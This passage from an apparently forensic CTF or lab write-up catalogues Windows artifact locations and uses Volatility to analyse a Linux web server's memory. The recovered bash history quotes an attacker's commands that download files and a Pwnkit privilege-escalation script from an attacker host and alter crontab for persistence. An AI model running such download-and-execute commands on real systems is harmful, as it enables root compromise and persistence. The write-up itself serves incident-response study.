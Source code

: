         │                   │   ├── f01b4d95cf55d32a.automaticDestinations-ms
        │                   │   └── fb3b0dbfee58fac8.automaticDestinations-ms
        │                   ├── CustomDestinations
        │                   │   ├── 590aee7bdd69b59b.customDestinations-ms
        │                   │   ├── 7e4dca80246863e3.customDestinations-ms
        │                   │   ├── 9d1f905ce5044aee.customDestinations-ms
        │                   │   ├── f01b4d95cf55d32a.customDestinations-ms
        │                   │   └── fb3b0dbfee58fac8.customDestinations-ms
        │                   ├── desktop.ini
        │                   ├── Downloads.lnk
        │                   ├── etc.lnk
        │                   ├── HomeGroup.lnk
        │                   ├── hosts.lnk
        │                   ├── http--go.microsoft.com-fwlink-LinkID=219472&clcid=0x409.lnk
        │                   ├── kape (1).lnk
        │                   ├── ms-settingsnetwork-ethernet.lnk
        │                   ├── Network and Internet.lnk
        │                   ├── Network and Sharing Center (2).lnk
        │                   ├── policy.lnk
        │                   ├── Programs and Features.lnk
        │                   ├── System and Security.lnk
        │                   ├── The Internet.lnk
        │                   └── Windows Firewall.lnk
        ```
        - `amcache` in `C/Windows/AppCompat/Programs`
        - `prefetch` in `C/Windows/prefetch`
        - in `C/Windows/ServiceProfiles` we have `NTUSER.DAT` for `LocalService` and `NetworkService`
        - in `C/Windows/System32`:
            - /config --> registers
            - /SRU
            - /winevt/logs --> evtx

### Linux memory
1. after moving the profile in volatility in `/opt/volatility2/volatility/plugins/overlays`
2. Let's begin by looking at the bash history : `python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_bash`
    ```
    Pid      Name                 Command Time                   Command
    -------- -------------------- ------------------------------ -------
        2341 bash                 2024-02-05 00:32:13 UTC+0000   history
        2341 bash                 2024-02-05 00:32:13 UTC+0000   p
        2341 bash                 2024-02-05 00:38:48 UTC+0000   ifconfig 
        2341 bash                 2024-02-05 01:25:15 UTC+0000   history 
    [...]
        3235 bash                 2024-02-05 01:57:23 UTC+0000   cd /etc
        3235 bash                 2024-02-05 01:57:46 UTC+0000   nano crontab
        3235 bash                 2024-02-05 01:57:53 UTC+0000   cat crontab
        3235 bash                 2024-02-05 01:59:06 UTC+0000   curl http://192.168.1.5:8000/crontab -o crontab
        3235 bash                 2024-02-05 01:59:15 UTC+0000   cat crontab
    ```
    - To filter and sort the bash history I did this command : `awk 'NR > 2 {print $4 "\t" substr($0, index($0,$6))}' bash | sort -k1`
    - Looks like the attacker get access to this server around 01:50:52 because at this time we have a wget to the attacker server : `01:50:52	wget http://192.168.1.5:8000/Pwnkit.sh`
    - He did a lot of wget to Pwnkit.sh (some Pwnkit later) and also some execution of it, looks like he became root did a weird command : `??x<?>%`
    - put new file in the `/var/www/html/download` folder, he put malware in the website folder
    - Modify the crontab (probably persistence)
3. We can check what is the IP of the server :
```
python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_ifconfig
```